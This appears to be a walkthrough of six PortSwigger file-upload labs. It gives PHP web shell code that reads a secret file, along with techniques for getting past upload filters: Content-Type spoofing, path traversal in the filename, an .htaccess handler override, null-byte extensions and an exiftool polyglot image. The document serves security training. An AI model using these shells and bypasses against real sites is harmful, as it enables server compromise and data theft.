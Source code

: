 # File upload 



### Table of Contents

- [Remote code execution via web shell upload](#remote-code-execution-via-web-shell-upload)
- [Web shell upload via Content-Type restriction bypass](#web-shell-upload-via-content-type-restriction-bypass)
- [Web shell upload via path traversal](#web-shell-upload-via-path-traversal)
- [Web shell upload via extension blacklist bypass](#web-shell-upload-via-extension-blacklist-bypass)
- [Web shell upload via obfuscated file extension](#web-shell-upload-via-obfuscated-file-extension)
- [Remote code execution via polyglot web shell upload](#remote-code-execution-via-polyglot-web-shell-upload)



----





### [Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)

Goal : upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`

- login with your credentials `wiener : peter`

- write a simple php code to view the content of `/home/carlos/secret`
  ```php
  <?php
  echo shell_exec('cat /home/carlos/secret');
  ?>
  ```

- upload the file

- from burp make the `Content-Type` header as a `text/html` 
  >to view all different extensions and equivalent value of Content-type header : [Content-Type](https://www.php.net/manual/en/function.mime-content-type.php#87856)



<img src=".\file_upload_img\1_2.png" style="zoom:80%;" />



- you will get the path of the file `The file avatars/code.php has been uploaded. `
- go to the file path and you will see the secret text

![](.\file_upload_img\1_1.png)







------





### [Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)

Goal : upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`

- login with your credentials `wiener : peter`

- if you try to upload the previous php file you will get 
  ```
  Sorry, file type application/octet-stream is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.
  ```

- I changed the `Content-Type` header to  `image/png` and sent the request

  

  <img src=".\file_upload_img\2_1.png" style="zoom:80%;" />

  

- you will get the path of the file `The file avatars/code.php has been uploaded. `
- go to the file path and you will see the secret text



------





### [Web shell upload via path traversal](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal)

Goal : upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`
- login with your credentials `wiener : peter`
- if you try to upload the previous php file you will get `The file avatars/code.php has been uploaded.`
- go to the file path
- notice that the page is blank and the code doesn't executed , it's just exists as a plain text
- In the `Content-Disposition` header, change the `filename` to `../code.php`
- notice that the file has been uploaded to `/files/code.php` NOT `/files/avatars/code.php` , so the filename parameter is vulnerable to path traversal
- the server performs URL decoding to the file name , So send the same request but encode the `/` with URL encoding (`%2f`) , you will get `The file avatars/../code.php has been uploaded`

<img src=".\file_upload_img\3_1.png" style="zoom:80%;" />



- go to `/files/avatars/..%2fcode.php` and you will see the secret text





------





### [Web shell upload via extension blacklist bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)

Goal : upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`

- login with your credentials `wiener : peter`

- if you try to upload the previous php file you will get `Sorry, php files are not allowed Sorry, there was an error uploading your file.`

- the extension `php` is blocked so i tried other php extensions to bypass the blacklisted extension

- from burp intruder i loaded these extensions and the file uploaded successfully but it was as a plain text
  >for more extensions and bypasses : [file upload bypass](https://book.hacktricks.xyz/pentesting-web/file-upload) 

  ```
  .php2
  .php3
  .php4
  .php5
  .php6
  .php7
  ```

- we need to tell the server to execute any extension we add as a `php`code , so we will add our `.htaccess` file

- change filename to `.htaccess` with `Content-Type : html/plain` and content : 
  ```
  AddType application/x-httpd-php .php0
  ```

- now any file with `php0` extension will be executed as a `php` code

<img src=".\file_upload_img\4_1.png" style="zoom:80%;" />



- back to the previous request , change the filename to `code.php0` and send the request



<img src=".\file_upload_img\4_2.png" style="zoom:80%;" />



- you will get the path of the file `The file avatars/code.php0 has been uploaded. `
- go to the file path and you will see the secret text





------





### [Web shell upload via obfuscated file extension](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension)

Goal : upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`

- login with your credentials `wiener : peter`

- if you try to upload the previous php file you will get `Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file.`

- the extension `php` is blocked so I tried URL-encoded null byte characters (`%00`) before the file extension 



<img src=".\file_upload_img\5_1.png" style="zoom:80%;" />





- you will get the path of the file `The file avatars/code.php has been uploaded. `
- go to the file path and you will see the secret text

<img src=".\file_upload_img\5_2.png" style="zoom:80%;" />





------





### [Remote code execution via polyglot web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)

Goal : upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`

- login with your credentials `wiener : peter`

- if you try to upload the previous php file you will get `Error: file is not a valid image Sorry, there was an error uploading your file.`

- I tried URL-encoded null byte characters (`%00`) before the file extension  , but I got the same message

- we need to inject our php code in any image , so we will use `exiftool` to do that
  ```bash
  exiftool -Comment="<?php echo 'Carlos Secret' . shell_exec('cat /home/carlos/secret'); ?>"  -o code.php
  ```

- this command will add this comment to the image metadata



<img src=".\file_upload_img\6_1.png" style="zoom:80%;" />



- upload the image 

<img src=".\file_upload_img\6_2.png" style="zoom:80%;" />



- go to your image path `/files/avatars/code.php` , you will get the secret text in the response



<img src=".\file_upload_img\6_3.png" style="zoom:80%;" />



